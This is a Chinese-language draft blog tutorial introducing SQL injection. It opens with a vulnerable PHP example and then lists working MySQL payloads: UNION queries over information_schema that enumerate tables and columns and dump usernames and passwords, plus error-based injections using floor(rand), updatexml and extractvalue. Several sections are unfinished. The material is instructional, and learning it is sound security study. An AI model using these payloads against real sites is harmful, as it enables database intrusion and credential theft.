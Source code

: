 ```yaml
---
title: sql注入入门(草稿)
date: 2021-06-30 15:47:09
tags:
    - 网络安全
    - sql
    - 注入
categories: 网络安全
index_img: https://mapp.alicdn.com/1625290741979mlaWoFscjr2vM1E.jpg
banner_img: https://api.ghser.com/random/pc.php
---
```

> **观前提醒**

**本篇文章需要前置知识**

- 知道什么是sql数据库

- 了解基本sql语句

# 一、了解什么是sql注入

我这里不扯概念，就简单讲讲我的理解

sql注入是指后台在拼接sql查询语句时未做安全处理而导致的非法查询

直接看代码

```php
$id = $_GET['id'];

$SQL = "select * from '某字段' where id = $id;";
```

如上，$id是用户输入的值，会直接拼接在sql语句上，hacker可以通过报错、联合查询等方法获取数据库中的数据。这就叫sql注入



![sql注入](https://mapp.alicdn.com/1625039144438c9CPKeyVPZ4VzEE.jpg)

# 二、sql注入有关数据库的那些事

## 1. 联合查询

联合查询我个人认为是最有用的一种查询，一句话脱库不是梦

```sql
SELECT user FROM dwva.users
UNION 
SELECT 1,GROUP_CONCAT(table_name) FROM information_schema.tables
WHERE table_schema=DATABASE()
```



## 2. 

# 二、常见的sql注入方式

## 1. 数字型注入

#未完待续



# 三、一般注入思路



## 1.基于报错的联合查询注入



1. 判断闭合方式
2. 利用order by 判断列数
3. union配合select收集信息
   1. 数据库表名
   2. 列名
4. 脱库

笔记

```sql
#查当前数据库所有表名
select 1,group_concat(table_name),3 from information_schema.tables where table_schema = database()

#查当前表所有列
select 1,group_concat(column_name),3 from information_schema.columns where table_schema = database() and table_name = 'users' --+

#脱库(非通用)
select 1,group_concat(id,':',username,':',password,' '),3 from users --+

```

##  2.基于报错的报错注入

### 1.主键重复报错

```
and (select 1 from (select count(*),concat((payload),floor (rand(0)*2))x from information_schema.tables group by x)a)
```

### 2.updatexml()报错

```sql
and updatexml(1,concat(0x7e,(select database()),0x7e),1);
```

### 3.extractvalue()报错

```sql
and (extractvalue(1,concat(0x7e,substring((select database()),1,20))));
```

### 数据溢出报错(仅mysql5.5.53以下)

# 四、注入的高级技巧



## 1.堆叠注入

### 改表名

### 预处理语句

#### 正则绕过技巧

1. concat
2. char
3. hex



